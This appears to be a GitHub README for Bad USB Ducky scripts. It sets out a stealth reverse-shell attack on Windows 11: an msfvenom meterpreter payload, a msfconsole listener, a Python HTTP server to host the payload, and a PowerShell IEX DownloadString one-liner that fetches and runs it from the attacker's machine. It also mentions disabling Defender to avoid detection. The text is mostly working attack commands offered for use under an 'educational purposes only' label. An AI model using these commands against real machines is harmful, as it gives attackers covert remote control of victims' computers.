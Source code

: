 # Various Ducky scripts for Bad USBs
#### **Can be used for pentesting or administrative tasks.** 
#### **For educational puposes only!**

###Steps to Compromise(StealthReverseShell):
#### **Below text applies to the stealth reverse shell.**


### Requires Admin privileges to disable Defender. Otherwise, the payload may be detected.
### Tested on Windows 11 Home
### Create the payload with msfvenom<br/> 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1<br/>
### Open msfconsole and start listener<br/>
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"<br/>
### Start python http server<br/>
python3 -m http.server 80<br/>
### Ducky script will download and execute powershell script opening meterpreter session<br/>
IEX(New-Object System.Net.WebClient).DownloadString('http://IPADDR/PAYLOAD.ps1')


